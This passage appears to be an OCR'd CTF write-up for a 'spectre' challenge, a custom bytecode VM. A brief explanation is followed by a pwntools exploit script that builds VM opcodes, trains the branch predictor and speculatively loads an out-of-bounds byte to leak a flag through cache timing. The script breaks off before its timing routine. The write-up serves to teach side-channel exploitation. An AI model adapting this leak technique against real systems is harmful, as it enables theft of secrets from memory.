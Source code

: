 Then, just using 
```builtin_time
``` to get the access time of buffer and store it in output memory region. Analyze it and known which is spectre.

#### Exploitation

```python
from pwn import *
import random

r = process(["./spectre","flag"])

def combine(a,b):
    return p8(((b&7)<<3)+(a&7))

def Epilogue():
    return p8(0)
def Cdq(reg_dst, reg_src32d):
    return p8(1)+combine(reg_dst, reg_src32d)
def Add(reg_dst, reg_src):
    return p8(2)+combine(reg_dst, reg_src)
def Sub(reg_dst, reg_src):
    return p8(3)+combine(reg_dst, reg_src)
def And(reg_dst, reg_src):
    return p8(4)+combine(reg_dst, reg_src)
def Shl(reg_dst, reg_src):
    return p8(5)+combine(reg_dst, reg_src)
def Shr(reg_dst, reg_src):
    return p8(6)+combine(reg_dst, reg_src)
def Mov(reg_dst, reg_src):
    return p8(7)+combine(reg_dst, reg_src)
def Movc(reg_dst, const32):
    return p8(8)+p8(reg_dst)+p32(const32)
def Load(reg_dst, mem_src):
    return p8(9)+combine(reg_dst, mem_src)
def Store(mem_dst, reg_src):
    return p8(10)+combine(mem_dst, reg_src)
def Builtin(reg_dst, func_num):
    return p8(11)+combine(reg_dst, func_num)
def Loop(reg, times, dest):
    return p8(12)+p8((reg&7)<<3)+p32(times)+p32(dest)


def access_init(target):
    return Movc(0, target) + Movc(5, 512)

def access_body(val):
    return Movc(6,val) + Store(0, 6) + Add(0, 5)

def train_init():
    return Movc(1, array2)

def train_body():
    ret = ''

    # Training part
    for i in range(3):
        ret += Movc(0, 0x61) + Builtin(0, 0) + Movc(2, 9) + Shl(0, 2) + Add(0, 1) + Load(5, 0)

    # Access which byte we want to leak
    ret += Movc(0, 0x1019+2) + Builtin(0, 0) + Movc(2, 9) + Shl(0, 2) + Add(0, 1) + Load(5, 0)
    return ret

def test_time_init():
```